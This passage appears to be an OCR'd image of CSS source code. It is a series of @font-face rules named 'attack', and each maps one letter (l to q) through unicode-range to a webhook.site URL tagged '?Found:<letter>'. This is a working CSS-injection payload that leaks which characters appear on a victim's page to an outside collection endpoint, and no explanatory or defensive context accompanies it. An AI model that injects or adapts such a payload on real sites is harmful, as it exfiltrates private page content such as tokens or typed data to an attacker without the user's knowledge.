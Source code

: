            font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:l');

           unicode-range:U+006C;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:m');

           unicode-range:U+006D;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:n');

           unicode-range:U+006E;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:o');

           unicode-range:U+006F;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:p');

           unicode-range:U+0070;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:q');

           unicode-range:U+0071;

}
